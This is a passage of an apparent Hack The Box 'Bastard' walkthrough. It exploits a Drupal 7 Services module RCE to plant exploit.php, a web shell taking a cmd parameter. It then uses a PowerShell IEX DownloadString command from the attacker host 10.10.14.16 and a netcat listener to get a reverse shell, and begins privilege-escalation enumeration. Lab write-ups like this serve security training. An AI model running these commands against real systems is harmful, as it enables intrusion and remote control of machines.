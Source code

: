 We can fix this issue by installing the `php-curl` package.

```bash
luc@kali:~/HTB/Bastard$ php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/exploit.php
```

We can now do HTTP requests to `http://10.10.10.9/exploit.php` with the `cmd` parameter to define our commands.

```http
GET /exploit.php?cmd=whoami HTTP/1.1

nt authority\iusr
```

We can use this to start a reverse shell.

```bash
luc@kali:~/HTB/Bastard$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
luc@kali:~/HTB/Bastard$ nano Invoke-PowerShellTcp.ps1
...
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
luc@kali:~/HTB/Bastard$ python3 -m http.server
```

```http
GET /exploit.php?cmd=powershell+IEX(New-Object+Net.WebClient).DownloadString('http%3a//10.10.14.16%3a8000/Invoke-PowerShellTcp.ps1') HTTP/1.1
```

```bash
luc@kali:~/HTB/Bastard$ sudo nc -lnvp 443
PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54> cd \users\dimitris\Desktop
PS C:\users\dimitris\Desktop> type user.txt
ba22fde1************************
```

## Privilege escalation

```bash
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
```